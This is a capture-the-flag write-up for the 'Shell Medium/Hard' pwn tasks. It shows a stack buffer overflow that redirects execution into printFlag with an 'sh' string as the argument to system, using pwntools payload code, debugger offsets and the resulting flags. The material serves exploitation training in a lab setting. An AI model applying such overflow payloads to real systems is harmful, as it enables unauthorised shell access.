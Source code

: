 > **Shell Medium**
> Run a command and get the flag.
> ASLR is off on the server.

> **Shell Hard**
> Maybe changing the code isnt the right direction.
> Note: The binary from shell has not changed

The functions here are exactly the same as in the task [PWN - Never Called](PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.

![](1.png)

Offset remains the same - 62, the address of the printFlag function is 0x5655628b.

![](2.png)
![](3.png)

Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload2 = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.

![](4.png)
![](5.png)

We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload2 = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.

![](6.png)

So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.

![](7.png)

Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```

![](8.png)

I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

> [Full exploit](shell.py)
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**